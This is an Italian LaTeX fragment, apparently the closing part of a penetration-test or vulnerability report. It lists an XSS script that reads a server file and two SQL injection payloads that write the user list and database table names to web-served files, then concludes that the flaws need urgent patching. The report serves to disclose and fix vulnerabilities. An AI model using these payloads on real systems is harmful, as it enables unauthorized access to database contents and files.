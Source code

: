 \documentclass[12pt]{article}
\begin{document}
\begin{itemize}
    \item Script per visuaizzare un file del server:\\
    \texttt{<SCRIPT>function test()\{fetch('TEST.txt').\\
    then(response => response.text()).then(data => alert(data))\}test(); \\
    </SCRIPT>}
    \item SQLi per recuperare l'elenco degli users/customers:\\
    \texttt{' or null is null INTO OUTFILE '/var/www/html/USERS.txt' \#}
    \item SQLi per recuperare l'elenco delle tabelle del db: \\
    \texttt{' or null is not null UNION SELECT null, TABLE\_NAME, TABLE\_SCHEMA \\ 
    FROM information\_schema.TABLES WHERE TABLE\_SCHEMA not like \\
    'information\_schema' AND TABLE\_SCHEMA not like 'mysql' AND TABLE\_SCHEMA \\
    not like 'performance\_schema' INTO OUTFILE '/var/www/html/TABLES.txt' \#}
\end{itemize}

Questi script dimostrano come un attaccante pu\`{o} accedere a file e informazioni 
dal database, utilizzando le vulnerabilit\`{a} SQLi e XSS.

\section{Conclusioni}

Questo rapporto evidenzia la presenza di vulnerabilit\`{a} critiche che richiedono 
immediata attenzione. Implementando le patch e le mitigazioni suggerite, la sicurezza 
del sistema pu\`{o} essere notevolmente migliorata.
\end{document}
